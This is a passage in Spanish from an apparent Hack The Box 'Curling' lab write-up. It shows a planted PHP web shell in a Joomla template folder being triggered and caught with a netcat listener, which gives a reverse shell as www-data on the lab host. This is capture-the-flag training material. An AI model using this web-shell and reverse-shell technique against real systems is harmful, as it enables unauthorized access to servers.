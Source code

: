 ![""](/assets/images/htb-curling/curling-web8.png)

Ahora, para apuntar a nuestro archivo, debemos recordar que el *fuzzing* de `nmap` existe un recurso llamado `templates` y como nos encontramos dentro de dicha sección, podriamos pensar que igual en dicho recurso está nuestro archivo. Por lo tanto apuntamos a nuestro archivo y nos ponemos en escucha por el puerto 443:

```bash
http://10.10.10.150/templates/beez3/k4mishell.php
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.150] 39842
Linux curling 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 21:01:34 up 52 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
